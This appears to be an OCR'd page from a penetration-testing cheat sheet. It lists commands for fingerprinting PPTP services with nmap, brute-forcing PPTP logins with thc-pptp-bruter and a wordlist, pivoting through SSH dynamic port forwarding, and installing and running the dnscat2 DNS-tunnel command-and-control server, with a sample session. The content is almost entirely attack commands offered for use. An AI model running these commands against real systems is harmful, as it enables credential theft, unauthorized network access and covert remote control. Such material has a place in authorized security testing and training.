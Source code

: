 
# PPTP Hacking Identifying PPTP, it listens on TCP: 1723
NMAP PPTP Fingerprint:

nmap â€“Pn -sV -p 1723 TARGET(S)  
PPTP Dictionary Attack

thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst



# SSH Pivoting - SSH pivoting from one network to another:
ssh -D <local host>:1010 -p 22 user@<remote host>


# Attacking Machine Installation:

apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install

# Run dnscat2:
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422